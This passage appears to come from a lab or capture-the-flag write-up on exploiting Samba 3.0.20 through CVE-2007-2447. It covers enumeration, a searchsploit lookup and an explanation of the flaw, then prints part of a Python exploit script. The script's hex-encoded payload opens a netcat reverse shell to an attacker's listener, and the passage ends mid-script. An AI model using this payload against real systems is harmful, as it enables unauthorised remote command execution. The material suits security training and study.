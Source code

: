 We can connect to it through anonymous login. However, this is pretty limited since we can't exactly read anything or dig further.

Off the enumeration, we were able to determine the version that is ran by Samba on port 445: v3.0.20.

We can begin to look through exploitdb for a possible vulnerabilty:

```bash
$ searchsploit samba
```

This will give us a list of exploits from the *exploitdb* database.

If we grep for our version, we can get this list:

```sh
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) -> unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow -> linux/remote/7701.txt
```

The remote heap overflow concerns versions strictly below 3.0.20, therefore it's not applicable.

However, it would seem like there is a vulnerability with the username map script that allows command execution; we can try to exploit that.

In this version of the Samba SMB implementation, there was a vulnerability involving the username input during the authentification process that allowed users to input shell characters without it being filtered. This thus allowed for arbitrairy command execution. ([CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447))

This is great, because this exploit doesn't require us to have a user's credentials and enter the system before trying to exploit it. We just need to have a valid host address that is running a version of the Samba dialect, as we do.

This exploit has already been implemented, but we can take a look at one of the implementations and understand from it:

```python
#!/usr/bin/python3     
# Slightly configured python script of the SMB Samba username exploit to allow for different listener host and port, as well as remote port.    
# Also converted to python3    
# Original here: https://gist.githubusercontent.com/joenorton8014/19aaa00e0088738fc429cff2669b9851/raw/6e1ae37e0061be103fd733b16266d26379a7f4ba/samba-usermap-exploit.py    
    
from smb.SMBConnection import SMBConnection    
import random, string    
from smb import smb_structs    
smb_structs.SUPPORT_SMB2 = False    
import sys    
    
# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/     
    
# Use the commandline argument as the target:     
if len(sys.argv) < 5:    
    print("\nUsage: " + sys.argv[0] + " <RHOST>\n" + "<RPORT>" + "<LHOST>" + "<LPORT>")    
    sys.exit()    
    
LHOST = "\\x" + "\\x".join("{:02x}".format(ord(c)) for c in sys.argv[3])    
LPORT = "\\x" + "\\x".join("{:02x}".format(ord(c)) for c in sys.argv[4])    
    
buf =  ""    
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"    
buf += "\x62\x67\x61\x66\x3b\x20\x6e\x63\x20"    
buf += str(LHOST) + str(LPORT) + "\x20\x30\x3c"    
buf += "\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66\x20\x7c\x20"    
buf += "\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70"    
buf += "\x2f\x6b\x62\x67\x61\x66\x20\x32\x3e\x26\x31\x3b\x20"    
```